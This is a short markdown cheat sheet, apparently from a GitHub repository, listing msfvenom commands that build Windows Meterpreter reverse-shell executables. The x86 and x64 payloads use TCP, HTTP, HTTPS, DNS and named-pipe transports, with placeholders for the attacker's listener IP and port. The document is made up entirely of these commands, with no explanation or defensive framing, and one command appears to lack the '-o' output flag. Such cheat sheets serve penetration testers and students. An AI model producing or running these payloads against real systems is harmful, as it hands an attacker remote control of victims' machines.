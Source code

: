 # Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_tcp_dns lhost=<dns_URL> lport=<PORT> -f exe met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_named_pipe pipename=<PIPENAME> -f exe -o met-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met_x86_64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_named_pipe pipename=<PIPENAME> -f exe -o met-x64.exe`